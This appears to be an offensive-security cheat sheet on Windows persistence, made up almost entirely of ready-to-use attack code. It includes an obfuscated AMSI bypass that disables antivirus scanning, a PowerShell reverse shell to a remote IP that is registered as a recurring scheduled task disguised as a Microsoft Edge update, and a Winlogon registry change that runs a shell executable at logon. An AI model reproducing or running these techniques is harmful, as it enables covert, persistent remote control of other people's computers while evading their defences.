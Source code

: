 # Persistance on windows

### Bypass AMSI (desactivate)

```ps1
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true);
```

### Register tasks


-User could be:
* system
* "NT AUTHORITY\Interactive"

-TaskPath Could be '\Microsoft\Windows\DriverX', but in the end, it is more visible

```batch
schtasks /CREATE /SC MINUTE /TN "Reverse Shell" /TR "C:\Users\s12de\Downloads\shell.exe"
```


```ps1
$command = '
&{
$client = New-Object System.Net.Sockets.TCPClient(\"192.168.56.1\",6969);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex \". { $data } 2>&1\" | Out-String );
  $sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \";
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};
$client.Close()
}
'

# Register command
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NonInteractive -NoLogo -NoProfile -ExecutionPolicy Bypass -Command $command";
$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).AddSeconds(5) -RepetitionInterval (New-TimeSpan -Minutes 1);
$settings = New-ScheduledTaskSettingsSet;
Register-ScheduledTask -TaskName 'MicrosoftEdgeUpdateTaskUserCore' -Description 'Keeps your Microsoft software up to date' -Settings $settings -Trigger $trigger -Action $action
```


```ps1
# Get
Get-ScheduledTask

# Debug command
$command = "&{echo toto > C:\Users\User\Desktop\toto.txt}"
powershell -Command "&{echo toto > C:\Users\User\Desktop\toto.txt}"
```

### Run registry key

```ps1
# Get
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit

# Set
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, C:\Users\s12de\Downloads\shell.exe" /f
```

# Link

* List of 10: https://www.sciencedirect.com/science/article/pii/S1742287619300362
* https://medium.com/@s12deff/winlogon-windows-reverse-shell-persistence-60ab10a31c4

